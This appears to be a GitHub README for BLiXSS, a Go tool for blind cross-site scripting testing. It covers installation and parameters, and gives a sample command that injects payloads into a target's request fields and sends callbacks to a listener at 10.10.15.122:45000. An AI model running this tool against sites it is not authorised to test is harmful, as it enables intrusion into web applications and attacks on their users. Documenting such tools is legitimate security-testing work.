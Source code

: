 ## Blind XSS Tool (BLiXSS)

BLiXSS is a command-line tool designed for blind XSS (Cross-Site Scripting) testing. It crafts malicious payloads to inject into web application parameters, allowing you to detect potential vulnerabilities.

### Installation

Clone the repository:

```bash
git clone https://github.com/yourusername/blixss.git
```

Navigate to the `blixss` directory:

```bash
cd blixss
```

Build the executable:

```bash
go build blixss.go
```

### Usage

BLiXSS requires the following parameters:

- `-t`: Target URL (e.g., `http://example.com`)
- `-b`: Body strings with the parameters of the request (e.g., `"parameter1=XSS&parameter2=test2&parameter3=XSS"`)
- `-l`: URL to forward the requests to (e.g., `http://10.10.15.122:45000`)
- `-d`: Specifies a custom directory to make the GET request. If not specified, it will attach `/<<paramName>>` on the request.

Example usage:

```bash
./blixss -t "http://example.com" -b "parameter1=XSS&parameter2=test2&parameter3=XSS" -l "http://10.10.15.122:45000" -d "custom/request/directory"
```

Parameter values different from 'XSS' will not be tested.

### Disclaimer

This tool is for educational purposes only. Do not use it for any illegal activities. I am not responsible for any misuse or damage caused by BLiXSS.

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
